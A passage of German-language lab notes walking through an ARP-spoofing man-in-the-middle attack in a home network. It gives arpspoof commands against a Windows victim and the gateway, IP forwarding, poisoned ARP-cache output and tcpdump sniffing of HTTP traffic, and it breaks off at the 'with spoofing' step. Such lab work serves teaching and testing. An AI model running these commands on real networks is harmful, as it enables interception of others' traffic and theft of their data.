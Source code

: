 Victim (Windows): `192.168.178.75 (00:0c:29:d2:3a:db)`

Gateway:  `192.168.178.1 (e0:28:6d:7b:fa:91)`

Hacker (Kali): `192.168.178.81 (00:0c:29:97:77:0a)`

```bash
# Victim zu Gateway --> Kali
$ arpspoof -i eth0 -t 192.168.178.75 192.168.178.1

# Gateway zu Victim --> Kali
$ arpspoof -i eth0 -t 192.168.178.1 192.168.178.75

# IP forwarding on
$ echo 1 > /proc/sys/net/ipv4/ip_forward
```



Mit aktivierten Spoofing ARP cache des Victim:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         00-0c-29-97-77-0a     dynamisch
  192.168.178.81        00-0c-29-97-77-0a     dynamisch
```

Beide MAC Adressen sind von Hacker!

Ohne Spoofing:

```sh
C:\Users\test>arp -a

Schnittstelle: 192.168.178.75 --- 0xc
  Internetadresse       Physische Adresse     Typ
  192.168.178.1         e0-28-6d-7b-fa-91     dynamisch
  192.168.178.81        00-0c-29-97-77-0a     dynamisch
```

 Ohne Spoofing: 

Auf Hacker (Kali)

```sh
$ tcpdump -nA port 80
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on eth0, link-type EN10MB (Ethernet), snapshot length 262144 bytes

```

Auf Victim (Windows) im Browser laden: `http://neverssl.com/`

Ergebnis: Ohne aktiviertes Spoofing sieht Hacker (Kali) nicht die Kommunikation

Mit Spoofing
